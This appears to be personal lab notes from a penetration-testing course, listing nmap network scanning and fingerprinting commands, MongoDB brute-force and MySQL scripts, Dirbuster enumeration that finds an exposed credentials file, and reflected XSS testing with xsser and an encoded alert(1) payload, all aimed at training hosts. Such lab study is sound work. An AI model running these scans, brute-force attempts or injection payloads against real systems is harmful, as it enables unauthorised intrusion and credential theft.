 The same functionalities were performed in the Burp Suite lab.

------------

**Scanning and OS Fingerprinting**
```bash
ip addr
nmap 192.204.142.0/24
nmap -sP 192.204.142.0/24
nmap -p- pc1.ine.local
nmap -p1-65535 pc1.ine.local
nmap -O pc1.ine.local
nmap pc2.ine.local
nmap -p21 -sV 192.204.142.*
nmap -p21 -sV 192.204.142.* --open
nmap -p- 192.204.142.1,2,3,4,5,6
cat /etc/hosts
nmap -p- 192.204.142.1,2,3,4,5,6
nmap -p27017 --script=mongodb-info target-2 | less
nmap -p27017 --script=mongodb-brute target-2
nmap --script=mysql-* target-1
```

------------

**Nessus**
I've been informed that the Nessus lab / Scanner isn't useful.
localhost:8834

------------

**Dirbuster**
```bash
ping demo.ine.local
nmap demo.ine.local
ifconfig
dirbuster
```
Auto Switch Head and Get, php, Wordlist = usr/share/wordlists/dirb/common.txt
Finds "accounts.xml" which details account credentials.

------------

**Cross Site Scripting**
```bash
ping demo.ine.local
nmap demo.ine.local
ifconfig
```
Finds page with "reflective" query.
Uses BurpSuite/FoxyProxy to get url and query.
```bash
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```
Uses burp suite to deliver the follow payload. Don't forget the space after header and the two at the end.
```html
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS
```
Delivering this triggered the popup script in browser once its forwarded.
